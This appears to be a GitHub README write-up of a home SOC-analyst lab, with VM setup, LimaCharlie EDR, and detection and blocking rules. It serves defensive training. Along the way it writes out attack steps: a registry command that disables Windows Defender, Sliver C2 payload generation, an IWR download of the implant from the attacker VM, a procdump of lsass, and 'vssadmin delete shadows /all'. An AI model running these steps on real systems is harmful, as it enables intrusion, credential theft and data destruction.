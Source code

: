 # SOC Analyst lab
Link to the Project (https://blog.ecapuano.com/p/so-you-want-to-be-a-soc-analyst-intro)

## Objective
1. Setting up and managing a SOC environment.

2. Understanding how to detect, analyze, and respond to cyber threats.

3. Developing and tuning detection rules to identify malicious activities.

4. Learning how to implement threat mitigation strategies.

### Skills Learned

1.SOC Environment setup

2.Threat Dectection and Analysis

3.Rule Creation and Tuning

4.Incident Response and Mitigation

5.YARA scanning

6.Threat Intelligence and reporting

### Tools Used
1. Virtualization Software

2. Security Information and Event Management (SIEM) tools

3. Network Monitoring 

4. YARA

5. Kali Linux 

## Steps
# PART 1 
The first step was to set up the virtual environment. For this project "VMware Workstation Pro" by Broadcom was the software used. 

Ubuntu Server 22.04.1 ISO was the version used because this version comes pre Installed with necessary packages to do this project.

The VM Workstation created had the following specs: 14GB Disk size, 2 CPU cores, and 2GB RAM.

After downloading and setting everything up, I encountered my first error. I had to make sure DNS and outbound pings are working.


## This is what it is supposed to look like


![Screenshot (3)](https://github.com/user-attachments/assets/2565610e-979d-446e-99b8-ef3b094732ad)


## This is what I got

![Screenshot (2)](https://github.com/user-attachments/assets/ec614aca-52e4-477e-9de6-83bddb195d7c)

Seeing the response I noticed that I did not add a name server. To resolve the issue I entered the following command: 


sudo nano /etc/resolv.conf 


This allowed me to add a name server. I entered in 8.8.8.8 because it refers to one of Googles public DNS servers.


![Screenshot (4)](https://github.com/user-attachments/assets/87f0b3ad-9bb7-47e8-8401-b5bd41c820c1)

it started to work after the change.

![Screenshot (5)](https://github.com/user-attachments/assets/fe241b07-600a-4d1a-9b74-11c7776b2dec)


This Unbuntu VM will act as an attacker. Now that everything is working, I started to set up the windows VM. 

The link for the windows VM was not working so I  settled for a windows 11 x64 VM. After setting everything up, I disabled windows defender.

![Screenshot (6)](https://github.com/user-attachments/assets/2da84f22-48ab-48e5-a58a-17c487c0eb7b)

Ran the command to permanently disable defender via registry: 

REG ADD "hklm\software\policies\microsoft\windows defender" /v DisableAntiSpyware /t REG_DWORD /d 1 /f 

![Screenshot (7)](https://github.com/user-attachments/assets/1193917a-3529-4f9f-92f0-ba7eb4135684)

Now in safe mode, change the 7 sevices from 3 to 4.

![Screenshot (8)](https://github.com/user-attachments/assets/98048272-b3fc-4804-a79e-123731245f17)

Exit safe mode and it should be defender free.

Next I had to Install Sysmon which is a analyst tool.

 ![Screenshot (9)](https://github.com/user-attachments/assets/048b935d-f6b8-402c-bcb3-13300d366bb1)


LimaCharlie EDR is next to download. I had a little hiccup here. I had to put Lc_sensor.exe before the command line. I also had to enter DIR command to make sure lc_sensor.exe was there. It'll give an error message if lc_sensor.exe is entered in before the downloaded executable.

![Screenshot (10)](https://github.com/user-attachments/assets/9b6e2b30-f9ef-49d2-ab4a-b85c0c0ae42d)

Next was back to the attack system. I had to download sliver Linux server binary and create a directory for the future steps.


![Screenshot (11)](https://github.com/user-attachments/assets/d40b7860-deff-4c72-8783-067de2f4313d)

# Part 2 
generating C2 payload is next. I opened sliver server and entered the following command to generate payload:

generate --http [Linux_VM_IP] --save /opt/sliver

I also entered the command "implants" to confirm the implant configuration

![Screenshot (14)](https://github.com/user-attachments/assets/6be2b68a-9a64-4246-9c1d-2d05de389dcb)

Then I went back to the windows VM to download the C2 payload. In the windows command I entered the following command:

IWR -Uri http://[Linux_VM_IP]/[payload_name].exe -Outfile C:\Users\User\Downloads\[payload_name].exe


![Screenshot (15)](https://github.com/user-attachments/assets/6df9c14b-8cd7-4b60-ae17-414003419d7c)

Next is to start the command and control session. I went to the linux VM and enetered the command "http" which is the listener. In the wiundows VM, enter the download location of the executable (C:\Users\User\Downloads\<your_C2-implant>.exe) and the linux VM will pick it up.


![Screenshot (17)](https://github.com/user-attachments/assets/413b4899-32a1-4bcc-a790-3b5ef7d3889c)

I entered the "use" command to interact with the C2 session. Now that the linux VM is linked with the Windows, I went to Lima charlie to examine the EDR telemetry and to see if the C2 implant was present.


![Screenshot (19)](https://github.com/user-attachments/assets/98a6d627-e8a9-426b-8eb5-4bf4c50ed02f)

I also observed the timeline that shows window event logs(WEL) and EDR telemetry (NETWORK_CONNECTIONS)


![Screenshot (20)](https://github.com/user-attachments/assets/57a508ca-8069-493c-a930-6a9290061431)

# PART 3
This part was about crafting detections. This part uses lsass with the C2 implant I used in part 2. Lsass was not working for me (I am using a differnet VM because the correct VM downloads are unavailable)so I could not see this part through but I followed along with the website screenshots. First you start with a procdump command in the linux VM then you dectect it with LimaCharlie. lsass.exe is a known sensitive process "SENSITIVE_PROCESS_ACCESS" event is what you would search for in the timeline.


![image](https://github.com/user-attachments/assets/f72581a8-aa8d-424e-9cb9-1838318235a3)


Once you find the event, You can make a detection and response(D&R) rule that would alert anytime the activtiy(SENSITIVE_PROCESS_ACCESS) occurs


![image](https://github.com/user-attachments/assets/7309d48f-f75e-4123-a806-dd137e0d16bd)


![image](https://github.com/user-attachments/assets/30364e32-4a6b-419e-b40e-ba62df0fc38b)

![image](https://github.com/user-attachments/assets/bb23318c-6985-4f72-97ad-f0f8c9733dff)

![image](https://github.com/user-attachments/assets/f1b16971-7b17-4ae9-b385-3676095261bb)

Once the rule is made, you can go back to the linux VM and run the procdump command to test if the rule you made will work and detect the command


![image](https://github.com/user-attachments/assets/1c9a3908-8fab-4b0e-953c-c21683a328e2)

![image](https://github.com/user-attachments/assets/1241def0-18b1-4627-beec-89db52d063ec)

# PART 4
Part 4 is about blocking attacks. First I did the following command for Lima Charlie to detect:

vssadmin delete shadows /all

![Screenshot (21)](https://github.com/user-attachments/assets/bd354601-018c-46fc-9eda-9fa2d1a5ca5f)

![Screenshot (22)](https://github.com/user-attachments/assets/c2e071f6-d62f-4d41-af42-a06be25fbb49)

I opened the event from the timeline and created a detection & Response(D&R) rule.

![Screenshot (23)](https://github.com/user-attachments/assets/b1c492de-c1d5-41f5-8eb1-1d4cde8397be)


Then I tested if the rule worked and it blocked the command by kicking me out the shell.

![Screenshot (24)](https://github.com/user-attachments/assets/3cd1adb0-4b54-4fce-bb40-bb93b8689fb0)

# PART 5



